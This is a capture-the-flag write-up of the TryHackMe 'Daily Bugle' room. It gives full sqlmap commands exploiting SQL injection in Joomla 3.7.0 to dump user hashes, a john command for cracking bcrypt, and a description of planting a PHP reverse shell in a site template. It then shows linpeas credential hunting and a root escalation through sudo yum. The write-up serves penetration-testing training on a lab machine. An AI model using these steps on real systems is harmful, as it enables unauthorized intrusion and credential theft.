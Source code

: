 +++
title="DailyBugle"
date=2020-06-10T21:19:10+02:00
author = "Somecookie"
description = "Daily Bugle - Compromise a Joomla CMS account via SQLi, practice cracking hashes and escalate your privileges by taking advantage of yum."
tags = ["joomla","sqli","yum","sqlmap","tryHackMe","CTF","hard","OSCP-learning-path"]
cover="img/dailyBugle/banner.png"
+++

Hello everyone! I'm currently going through the `offensive pentesting` learning path on TryHackMe. So today I'm going to do the [Daily Bugle](https://tryhackme.com/room/dailybugle) room. This a hard room however I found it not that difficult! If you have done the previous rooms of the learning path you should be able to solve it!

## NMAP is your best-friend!

As always I start with `nmap`! 

{{< image src="/img/dailyBugle/nmap.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

There are three open services `SSH`, an `Apache` webserver and a `MariaDB` database. I wanted to try something I learnt in the [Blue](https://tryhackme.com/room/blue) room. `nmap` can run the script `vuln` to detect vulnerabilities on the remote server. Thus I ran a second scan `nmap -sC -sV --script=vuln 10.10.114.124`. I found out two interesting things with this scan, some subdirectories of the webserver

{{< image src="/img/dailyBugle/enum.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

but most importantly, the CMS used, `Joomla! 3.7.0`, is vulnerable!

{{< image src="/img/dailyBugle/joomla.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

## Spidey the thief

Let's access the HORRENDOUS website...

{{< image src="/img/dailyBugle/dailyBugle.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Okay `Spider-man` robbed a bank...Other than this masterpiece of article, there is nothing interesting on the website. Let's see what we can find on [ExploitDB](https://www.exploit-db.com/exploits/42033) about Joomla 3.7.0.

{{< image src="/img/dailyBugle/sqli.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

The command of the exploit tells us the available databases, let's run it without the `level=5` otherwise I take ages...

```bash
sqlmap -u "http://10.10.34.93/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --random-agent --dbs -p list[fullordering]

...

available databases [5]:
[*] information_schema
[*] joomla
[*] mysql
[*] performance_schema
[*] test
```

The most interesting database is probably `joomla`, let's find out its tables:

```bash
sqlmap -u "http://10.10.34.93/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --random-agent --dbs -p list[fullordering] --threads 10 -D joomla --tables
```

mmmh there are 72 tables...I guess `#__users` is the one we want to dump...

```bash
sqlmap -u "http://10.10.34.93/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --random-agent --dbs -p list[fullordering] --threads 10 -D joomla -T "#__users" --dump
```

Bingo we find a user!

{{< image src="/img/dailyBugle/superuser.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

## Johnny

The password is not in plaintext! That would be too easy. It's hashed with `bcrypt`.
Let's try to brute-force it with our friend `john`:

```bash
sudo john -format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

After a few long minutes we cracked the password! Ah yeah...how surprising...

{{< image src="/img/dailyBugle/jonah.jpg" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}


## The super template!

Since Jonah is the editor-in-chief, he is probably also admin of the website. Let's see if we can connect to the `Administrator` page we found in the `nmap` scan.

{{< image src="/img/dailyBugle/admin.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

It works! After a few minutes looking around I finally found out where I could upload a reverse shell! Directly in the default template `protostar`!

{{< image src="/img/dailyBugle/index.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Let's get the [reverse shell code](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), put it in `index.php` with the desired IP address and port. Last thing left to do is to set up a listener with netcat...btw what's your favorite port?

We have a shell! 

{{< image src="/img/dailyBugle/shell.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

But don't be too happy, the user `apache` is...mmeeeh... you can't even access the home directory of the other user `jjameson` where the flag is probably located...

## It's time for the cutest peas in the world!

{{< image src="/img/dailyBugle/peass.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Let's upload [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) onto the webserver...for example in `/dev/shm` with a simple http server.

{{< image src="/img/dailyBugle/upload.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

There is something odd in the results from linpeas...a password in `/var/www/html/configuration.php`...but for what??!

{{< image src="/img/dailyBugle/pwd.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

## And as always don't forget SSH

I was stuck on this...for ages...I have a username, a password, ssh is open, I wonder what are the links between those...oh...

{{< image src="/img/dailyBugle/facepalm.jpg" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

I connect with SSH  with the user `jjameson` and the password found by linpeas and BAM it works! Plus I get the `user.txt` flag.

## Not the biggest mountain

Let's first use `sudo -l` to see our permissions:

```bash
[jjameson@dailybugle ~]$ sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum

```

We can run `sudo` on `yum` without password! Let's use the exploit found on [GTFOBins](https://gtfobins.github.io/gtfobins/yum/) and spawn a root shell!

{{< image src="/img/dailyBugle/gtfo.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Simply copy it and...

{{< image src="/img/dailyBugle/root.jpg" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

As always the root flag is in `/root/root.txt`. We are done! You know what it means...DELETE EVERYTHING!!!

{{< image src="/img/dailyBugle/rm.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}